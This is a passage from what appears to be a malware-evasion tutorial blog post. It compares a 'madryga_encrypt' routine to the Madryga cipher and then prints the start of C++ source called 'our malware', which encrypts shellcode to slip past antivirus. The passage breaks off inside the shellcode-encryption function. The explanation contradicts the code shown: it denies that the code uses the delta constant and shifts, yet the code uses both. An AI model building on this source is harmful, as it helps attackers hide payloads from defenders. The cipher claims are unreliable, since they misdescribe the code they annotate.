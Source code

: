 The `madryga_encrypt` function uses a slightly different variant of the Madryga encryption algorithm compared to the one I described earlier. The basic structure of the algorithm is the same, but there are some differences in how the key schedule is generated and how the round function is computed. Here are the main differences:    

- Key Schedule:
    - The `madryga_encrypt` function uses a fixed key consisting of four `u32` values, whereas the earlier description used a variable-length key.
    - The `madryga_encrypt` function does not use the `delta` constant in the key schedule. Instead, the four `u32` values in the key are directly used as subkeys for each round of encryption.
- Round Function:
    - The `madryga_encrypt` function uses a different round function than the one I described earlier. Specifically, the `madryga_encrypt` round function is based on the addition and `XOR` operations, whereas the earlier description used bitwise rotations and shifts.
    - The `madryga_encrypt` round function uses a different formula for each half of the plaintext. The `v0` half is updated based on the `v1` half, and the `v1` half is updated based on the `v0` half.

Despite these differences, the `madryga_encrypt` function can still be classified as a variant of the Madryga encryption algorithm.

Full source code of our malware is:    

```cpp
/*
 * madryga.cpp
 * encrypt/decrypt payload via Madryga alg
 * author: @cocomelonc
 * https://cocomelonc.github.io/malware/2023/03/09/malware-av-evasion-13.html
*/
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <stdlib.h>
#include <windows.h>

#define ROUNDS 16

typedef uint32_t u32;

u32 key[4] = {0x00010203, 0x04050607, 0x08090A0B, 0x0C0D0E0F};

void madryga_encrypt(u32 *v, u32 *k) {
  u32 v0 = v[0], v1 = v[1], sum = 0, i;
  u32 delta = 0x9E3779B9;
  for (i = 0; i < ROUNDS; i++) {
    sum += delta;
    v0 += ((v1 << 4) + k[0]) ^ (v1 + sum) ^ ((v1 >> 5) + k[1]);
    v1 += ((v0 << 4) + k[2]) ^ (v0 + sum) ^ ((v0 >> 5) + k[3]);
  }
  v[0] = v0; v[1] = v1;
}

void madryga_decrypt(u32 *v, u32 *k) {
  u32 v0 = v[0], v1 = v[1], sum = 0xE3779B90, i;
  u32 delta = 0x9E3779B9;
  for (i = 0; i < ROUNDS; i++) {
    v1 -= ((v0 << 4) + k[2]) ^ (v0 + sum) ^ ((v0 >> 5) + k[3]);
    v0 -= ((v1 << 4) + k[0]) ^ (v1 + sum) ^ ((v1 >> 5) + k[1]);
    sum -= delta;
  }
  v[0] = v0; v[1] = v1;
}

void madryga_encrypt_shellcode(unsigned char* shellcode, int shellcode_len) {
  int i;
  uint32_t *ptr = (uint32_t*) shellcode;
```